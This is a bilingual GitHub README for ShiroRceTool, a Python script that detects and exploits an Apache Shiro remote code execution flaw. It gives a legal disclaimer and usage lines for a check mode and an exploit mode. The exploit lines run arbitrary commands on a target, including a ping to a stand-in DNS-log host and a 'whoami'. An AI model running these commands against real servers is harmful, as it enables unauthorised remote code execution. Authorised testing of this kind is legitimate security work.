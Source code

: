 # ShiroRceTool
一个简单的Shiro RCE检测和利用脚本。- Simple checker and exploit for Shiro RCE.
  
![](data/img/img1.png)

## 声明 WARNING
* 仅供安全人员验证、测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.cac.gov.cn/2016-11/07/c_1119867116.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* **Users must obey [the Cybersecurity Law of the People's Republic of China](http://www.cac.gov.cn/2016-11/07/c_1119867116.htm)  and local laws.**

## 使用方法 - Usage
你可以根据你的需求调整data目录下的keys.enable.txt和keys.disable.txt。  
You can change the data/keys.enable.txt and data/keys.disable.txt as you like.  
  
**建议只使用Check模式检测漏洞，不建议在不了解该漏洞的情况下使用Exploit模式。**  
**It is recommended to only use Check mode to detect vulnerabilities, and it is not recommended to use Exploit mode without a good knowledge of this vulnerability.**  
  
* 检查该漏洞 - To Check this vulnerability
```bash
python ShiroRceTool.py -m check -u "http://example.com"
```
  
* 执行命令 (不回显) - Execute command with no echo
```bash
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```
  
* 执行命令（尝试回显） - Execute command with echo
```bash
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
```
  
* 获取帮助 - Get help
```bash
python ShiroRceTool.py -h
 ____  _     _           ____         _____           _     
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|
                        
                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  exploit or check
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo Command.
```
## 示例 Example
  
![](data/img/img2.png)
